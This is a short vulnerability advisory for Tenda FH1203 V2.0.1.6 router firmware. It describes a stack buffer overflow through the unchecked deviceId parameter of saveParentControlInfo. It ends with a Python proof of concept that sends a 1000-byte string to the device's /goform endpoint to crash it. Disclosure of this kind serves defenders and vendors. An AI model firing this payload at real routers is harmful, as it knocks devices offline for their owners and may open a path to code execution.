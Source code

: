 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2495.html

## Affected version

FH1203 V2.0.1.6

## Vulnerability details

The function `saveParentControlInfo` contains a stack-based buffer overflow vulnerability. It reads in a user-provided parameter `deviceId`, and the variable is passed to the function without any length check, which may lead to overflow of the stack-based buffer.

![image-20240319223210791](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319223210791.png)

As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

![image-20240319223227916](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319223227916.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/saveParentControlInfo"
payload = b"a"*1000

data = {"deviceId": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240320014324581](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320014324581.png)
